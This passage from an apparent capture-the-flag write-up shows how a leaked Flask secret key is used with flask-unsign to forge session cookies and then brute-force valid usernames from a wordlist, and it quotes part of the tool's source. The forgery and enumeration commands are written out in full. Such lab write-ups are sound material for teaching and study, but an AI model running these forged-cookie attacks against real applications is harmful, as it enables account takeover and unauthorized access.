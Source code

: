 
#### Failed Access as admin

With access to the secret, I can write whatever I want into the cookie, which
means I can log in as any use. So far through the site, there’s been no
indication of any other user name, which is a challenge. One reasonable way to
go would to hope that there’s an admin account.

I’ll craft a cookie:

    
    
    oxdf@hacky$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
    eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YkP2Cg.saisYxScWGL1RiUL7hoO25l60hg
    

In Firefox dev tools, in the Storage tab, I’ll replace my cookie with that
one:

![image-20220330063228612](https://0xdfimages.gitlab.io/img/image-20220330063228612.png)

On refreshing, it redirects to `/login`. This could mean that I messed up the
cookie somehow, but it could also mean this isn’t a valid username.

#### Brute Username with Cookie

I’m going to generate a huge list of cookies with possible usernames. I’ll
start a loop to generate them:

    
    
    oxdf@hacky$ time cat /usr/share/seclists/Usernames/Names/names.txt | \
    > while read user; do \
    >   (flask-unsign --sign --cookie "{'logged_in': True, 'username': '$user'}" --secret 'secret123' &); \
    > done > names_cookies
    
    real    8m10.417s
    user    0m14.970s
    sys     0m4.190s
    

This will take a list of names and generate all the cookies I need. This is
actually pretty slow, taking over eight minutes minutes to run. That’s because
for each work it’s having to start up, which includes importing all of Flask.

I can dig into the `flask-unsign` source a bit and trace what’s happening when
I call it with `--sign`. It ends up [here](https://github.com/Paradoxis/Flask-
Unsign/blob/e934573b2bcc3cfd58769e93e6761d0a9d3f21ab/flask_unsign/session.py#L121-L142):

    
    
    @lru_cache()
    def get_serializer(secret: str, legacy: bool, salt: str) -> URLSafeTimedSerializer:
        """
        Get a (cached) serializer instance
        :param secret: Secret key
        :param salt: Salt
        :param legacy: Should the legacy timestamp generator be used?
        :return: Flask session serializer
        """
        if legacy:
            signer = LegacyTimestampSigner
        else:
            signer = TimestampSigner
    